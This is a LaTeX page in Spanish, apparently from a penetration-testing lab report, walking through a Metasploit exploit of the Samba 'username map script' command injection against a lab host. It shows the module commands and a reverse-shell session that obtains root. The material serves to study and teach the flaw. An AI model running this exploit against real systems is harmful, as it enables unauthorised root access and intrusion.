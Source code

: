 \documentclass[a4paper,12pt]{scrartcl}
\begin{document}
\subsection{Samba}


Si realizamos el mismo proceso con Samba que con Tomcat, empezaríamos buscando en la base de datos de Metasploit herramientas relacionadas con samba, empezando por los escáneres. Sin embargo, de los escáneres de Samba no hemos obtenido ningún dato relevante como sucedió con Tomcat. Después de probar varias herramientas\footnote{Se puede hacer búsqueda con \textbf{search smb} y \textbf{search samba}}, damos con una que nos permite la ejecución arbitraria de código, ¡como root!

\begin{lstlisting}[breaklines]
> use exploit/multi/samba/usermap_script 
> set RHOST 192.168.59.100
> exploit

[*] Started reverse TCP double handler on 192.168.59.1:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo jccnjDkHvTQNpLTH;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "jccnjDkHvTQNpLTH\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.59.1:4444 -> 192.168.59.100:58336) at 2016-05-23 13:31:24 +0200

id
uid=0(root) gid=0(root)
\end{lstlisting}

Si buscamos acerca del exploit que permite esto, encontramos lo siguiente:

\vspace{10pt}

This module exploits a command execution vulerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!\cite{rapid7-userscriptsamba}

\vspace{10pt}

En la descripción previa de Rapid7 hay información suficiente para intentar destripar con Wireshark el protocolo y buscar esos metacaracteres shell:
\end{document}
